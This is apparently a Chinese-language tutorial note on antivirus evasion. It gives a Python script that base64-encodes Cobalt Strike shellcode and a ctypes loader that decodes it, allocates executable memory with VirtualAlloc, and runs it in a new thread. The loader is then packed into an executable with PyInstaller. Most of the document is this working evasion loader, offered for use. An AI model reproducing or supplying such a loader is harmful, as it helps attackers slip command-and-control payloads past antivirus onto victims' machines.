


# 免杀实验

---

# 加载器



**加载器 + base64**

cs 生成 Python shellcode x64



base64 加密 shellcode
```py
# coding=utf-8
import base64

shellcode = open('payload.py')
shellcode = shellcode.read()
s1=shellcode.find("\"")+1
s2=shellcode.rfind("\"")
shellcode= shellcode[s1:s2]

base64_shellcode = base64.b64encode(shellcode.encode('UTF-8'))
with open('base64.txt', 'wb') as shell:
    shell.write(base64_shellcode)
print(base64_shellcode)

```

添加到加载器
```py
import base64
import codecs
import ctypes

shellcode = ""
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

pyinstaller 打包
```bash
pip install PyInstaller
pyinstaller -F base64loader.py
```

---

**Source & Reference**
- [免杀 - shellcode简单混淆BypassAv](https://mp.weixin.qq.com/s/LkOmSNw7YgD7yfXkIrofHQ)
